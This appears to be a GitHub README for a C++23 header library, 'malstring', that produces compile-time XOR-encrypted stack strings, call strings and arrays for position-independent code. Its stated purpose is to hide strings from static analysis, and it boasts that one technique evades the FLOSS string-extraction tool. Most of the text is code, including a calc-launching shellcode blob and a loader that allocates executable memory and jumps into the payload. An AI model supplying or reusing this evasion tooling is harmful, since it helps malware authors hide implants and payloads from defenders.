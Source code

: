 # malstring
Using c++23 compile-time magic to produce obfuscated PIC strings and arrays.

## Stack strings
Probably you already know the following code will force runtime construction of string "Stack string" on the stack.
```c++
#include <cstdio>

int main() {
    char stack_string[] = {'S', 't', 'a', 'c', 'k', ' ', 's', 't', 'r', 'i', 'n', 'g', '\0'};

    printf(stack_string);
}
```

[godbolt](https://godbolt.org/z/hPYEnjn3s)

This method is useful if you want to generate PIC code without using an .rdata section to store strings, or simply hide strings from static string search tools.

The only problem with this. Writing each string this way is extremely inconvenient. Also it's less readable.
This problem is especially evident when you want to encrypt stack string in compile time.

My library, using various metaprogramming tricks, produces compile-time XOR-encrypted stack strings without losing readability and convenience.
For each string it is possible to use its own XOR key.

```c++
	StackString<"Null-terminated Stack String", RAND()> ss;
	pm.EncryptDecrypt(); // don't forget to decrypt the string before using it
	std::cout << ss.Buf << '\n';
	pm.EncryptDecrypt(); // encrypt again after use

	StackString<"Stack String without null terminator", RAND(), false> ss2;
	pm2.EncryptDecrypt();
	std::cout << ss2.Buf << '\n';
	pm2.EncryptDecrypt();
```

[godbolt stack string](https://godbolt.org/z/dGePWeoaa)


## Call Strings

I found this technique in [HAVOC](https://github.com/HavocFramework/Havoc) C2 framework.

```c++
#include <cstdio>

#if (defined(_MSC_VER))
#define NOINLINE __declspec(noinline)
#else
#define NOINLINE __attribute__((noinline))
#endif


NOINLINE char SymH() {
	return 'H';
}
NOINLINE char SymE() {
	return 'E';
}
NOINLINE char SymL() {
	return 'L';
}
NOINLINE char SymO() {
	return 'O';
}
NOINLINE char SymNULL() {
	return '\0';
}


int main() {
    char Hello[6];
    Hello[0] = SymH();
	Hello[1] = SymE();
	Hello[2] = SymL();
	Hello[3] = SymL();
	Hello[4] = SymO();
	Hello[5] = SymNULL();
    
    printf("%s\n", Hello);
}
```
gcc optimizes all calls, so optimization must be disabled. Msvc works well even with optimization enabled.
[call string unconv](https://godbolt.org/z/4TGso8heb)


My library also provides the ability to create XOR-encrypted call strings in a much more convenient way.

```c++
    CallString<"Null-terminated Call String", RAND()> cs;
	cs.EncryptDecrypt(); // don't forget to decrypt the string before using it
	printf(cs.Buf);
	cs.EncryptDecrypt(); // encrypt again after use

    CallString<"Call String without null terminator", RAND()> cs2;
	cs2.EncryptDecrypt();
	printf(cs2.Buf);
	cs2.EncryptDecrypt();

```
[call string conv](https://godbolt.org/z/8n49Knov3)

## Call Array

You can store more than just strings. This library also provides a way to store arrays.
This code demonstrates how to call the Metasploit shellcode, which launches Calc.exe

```c++
int main()
{
	constexpr std::array<std::uint8_t, 108> shellcode {
		0x53, 0x56, 0x57, 0x55, 0x54, 0x58, 0x66, 0x83, 0xE4, 0xF0, 0x50, 0x6A, 0x60, 0x5A, 0x68, 0x63, 0x61, 0x6C,
		0x63, 0x54, 0x59, 0x48, 0x29, 0xD4, 0x65, 0x48, 0x8B, 0x32, 0x48, 0x8B, 0x76, 0x18, 0x48, 0x8B, 0x76, 0x10,
		0x48, 0xAD, 0x48, 0x8B, 0x30, 0x48, 0x8B, 0x7E, 0x30, 0x03, 0x57, 0x3C, 0x8B, 0x5C, 0x17, 0x28, 0x8B, 0x74,
		0x1F, 0x20, 0x48, 0x01, 0xFE, 0x8B, 0x54, 0x1F, 0x24, 0x0F, 0xB7, 0x2C, 0x17, 0x8D, 0x52, 0x02, 0xAD, 0x81,
		0x3C, 0x07, 0x57, 0x69, 0x6E, 0x45, 0x75, 0xEF, 0x8B, 0x74, 0x1F, 0x1C, 0x48, 0x01, 0xFE, 0x8B, 0x34, 0xAE,
		0x48, 0x01, 0xF7, 0x99, 0xFF, 0xD7, 0x48, 0x83, 0xC4, 0x68, 0x5C, 0x5D, 0x5F, 0x5E, 0x5B, 0x0C, 0xCC, 0xCC,
	};
	
	CallArray<shellcode.size(), shellcode, RAND()> calc;
	calc.EncryptDecrypt();
	
	const auto alloc = VirtualAlloc(0, sizeof(calc), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	
	memcpy(alloc, calc.Buf, sizeof(calc));
	
	((void (*)())alloc)();

	calc.EncryptDecrypt();
}

```

You can even pass hex string instead of constexpr array.

``` c++
int main()
{


	CallArrayFromHex<"53 56 57 55 54 58 66 83 E4 F0 50 6A 60 5A 68 63 61 6C "
	                 "63 54 59 48 29 D4 65 48 8B 32 48 8B 76 18 48 8B 76 10 48 AD "
	                 "48 8B 30 48 8B 7E 30 03 57 3C 8B 5C 17 28 8B 74 1F 20 48 01 FE 8B 54 "
	                 "1F 24 0F B7 2C 17 8D 52 02 AD 81 3C 07 57 69 6E 45 75 EF 8B 74 1F 1C "
	                 "48 01 FE 8B 34 AE 48 01 F7 99 FF D7 48 83 C4 68 5C 5D 5F 5E 5B 0C "
	                 "CC CC CC CC CC CC CC CC CC CC CC CC CC CC CC CC CC CC CC CC CC CC CC CC", RAND()> calc;

	calc.EncryptDecrypt();
	
	const auto alloc = VirtualAlloc(0, sizeof(calc), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	
	memcpy(alloc, calc.Buf, sizeof(calc));
	
	((void (*)())alloc)();

	calc.EncryptDecrypt();
}

```
The only limitation of this method is EXTREMELY long compilation time for large arrays. A 1kb shellcode takes about 30 minutes compilation time.

## Detection
I tested StackString and CallString with [FLOSS](https://github.com/mandiant/flare-floss)
The StackString is sometimes detectable as "Tight string" (runtime decrypted stack string)
CallString is undetectable.

## Usage
Just copy header into your project. set c++ standard to c++23 or latest.
CRT isn't required.